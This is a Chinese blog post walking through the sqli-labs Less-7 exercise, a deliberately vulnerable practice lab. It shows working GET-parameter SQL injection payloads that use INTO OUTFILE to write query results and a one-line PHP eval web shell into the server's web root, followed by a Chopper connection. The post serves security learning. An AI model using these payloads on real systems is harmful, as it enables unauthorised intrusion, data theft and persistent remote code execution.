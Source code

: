```yaml
---
layout: post
title: SQL导出文件GET字符型注入(less7)
date: 2021-06-05 19:15 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 SQL注入基本姿势](#0x0-sql注入基本姿势)
- [0x1 LESS-7](#0x1-less-7)

<!-- /TOC -->
## 0x0 SQL注入基本姿势
**outfile()**  
outfile函数可以将查询到的数据存放到一个指定文件种，可以利用这个函数写入一句话木马，或者将查询结果写入文件,可以多行输出
## 0x1 LESS-7
**存在注入点**
![](/images/20210605-1.png)
**成功闭合**  
`?id=1')) --+`  
![](/images/20210605-2.png)
**只存在3列**  
`?id=1')) order by 4 --+`  
![](/images/20210605-3.png)
**利用outfile**  
`?id=1')) union select  1,2,3 into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/1.txt" --+`  
![](/images/20210605-4.png)
![](/images/20210605-5.png)
**写入一句话**  
`?id=1')) union select 1,2,"<?php @eval($_POST['123']);?>" into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/shell.php" --+`
![](/images/20210605-6.png)
![](/images/20210605-7.png)
**菜刀连接**  
![](/images/20210605-8.png)

**查询结果写入文件**  
`?id=1')) union select version(),database(),user() into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/2.txt" --+`  
![](/images/20210605-9.png)
![](/images/20210605-10.png)
**之后操作和之前的关卡一样**  